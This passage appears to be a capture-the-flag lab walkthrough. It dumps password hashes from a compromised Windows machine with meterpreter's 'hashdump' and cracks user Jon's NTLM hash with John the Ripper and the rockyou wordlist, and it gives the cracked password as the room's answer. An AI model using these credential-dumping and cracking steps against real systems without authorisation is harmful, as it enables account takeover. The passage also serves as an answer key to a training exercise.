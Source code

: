 ## _**4: Cracking**_

Dump the non-default user's password and crack it!

**Questions**

Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

- `hashdump`
- Jon

![](2023-03-16-07-22-35.png)

Copy this password hash to a file and research how to crack it. What is the cracked password?

- Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
- `john jon.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt`
- `john jon.hash --format=NT --show`
- Jon:alqfna22:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
- alqfna22

![](2023-03-16-07-29-37.png)


## _**5: Find flags!**_
